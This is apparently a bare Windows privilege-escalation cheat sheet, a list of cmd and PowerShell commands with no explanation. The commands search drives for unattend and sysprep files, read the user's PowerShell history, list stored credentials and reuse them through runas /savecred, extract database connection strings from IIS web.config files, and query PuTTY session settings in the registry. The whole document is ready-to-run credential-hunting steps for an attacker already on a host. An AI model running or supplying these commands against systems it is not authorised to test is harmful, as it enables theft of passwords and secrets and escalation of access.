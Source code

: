 # File-Unattended ✅
## cmd ✡️
```cmd
dir C:\sysprep.inf /s /p
dir C:\sysprep.xml /s /p
dir C:\unattend.xml /s /p
```
## powershell ✡️
```powershell
Get-ChildItem -Path C:\ -Filter "sysprep.inf" -Recurse -ErrorAction SilentlyContinue
Get-ChildItem -Path C:\ -Filter "Unattend.xml" -Recurse -ErrorAction SilentlyContinue
Get-ChildItem -Path C:\Windows\Panther\ -Filter "*.xml" -Recurse -ErrorAction SilentlyContinue
Get-ChildItem -Path C:\Windows\system32\sysprep\ -Filter "*.xml" -Recurse -ErrorAction SilentlyContinue
```
# Powershell History ✅
## cmd ✡️
```cmd
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt # run in cmd
```
## powershell ✡️
```powershell
type $Env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt # run in powershell
```
# Saved Windows Credentials ✅
```powershell
cmdkey /list # show save user credentials
runas /savecred /user:<username> cmd.exe # run cmd with another user 
runas /savecred /user:<username> powershell.exe # run powershell with another user
```
# IIS Configuration ✅
```cmd
type C:\inetpub\wwwroot\web.config | findstr connectionString
forfiles /p C:\ /s /m web.config /c "cmd /c findstr /i connectionString @file" 2>$null
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
```
# Retrieve Credentials from Software: PuTTY ✅
```cmd
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```

